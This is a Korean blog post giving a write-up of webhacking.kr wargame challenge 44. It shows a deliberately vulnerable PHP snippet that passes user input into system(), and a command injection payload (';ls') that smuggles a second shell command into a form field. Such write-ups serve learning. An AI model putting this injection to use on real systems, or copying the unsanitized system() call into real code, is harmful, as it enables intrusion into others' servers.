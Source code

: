 ```yaml
---
title: "[webhacking.kr] 44번 문제 풀이[command injection]]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - command injection
toc: true
toc_sticky: true
toc_label: "44번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 44번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152749393-b116b08b-26e5-42e7-acee-068339b302e4.png)

  ```php
<?php
  if($_POST['id']){
    $id = $_POST['id'];
    $id = substr($id,0,5);
    system("echo 'hello! {$id}'"); // You just need to execute ls
  }
?>
  ```


# 문제 풀이
  다음과 같이 입력해줍니다.

  ```md
  ';ls'
  ```

  를 입력하면 system 함수는 다음과같이 실행되어 bash에서 ls 명령어가 실행됩니다.

  ```bash
echo 'hello! ';ls''
  ```


  ![image](https://user-images.githubusercontent.com/33647663/152749953-81997ede-d705-4493-9344-4479bd94b7ef.png)

  flag 파일의 경로가 나왔으니 해당 파일을 접근해보면 플래그가 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152750009-3139fee1-3cd1-4b36-8551-3a80bd6db1c0.png)

  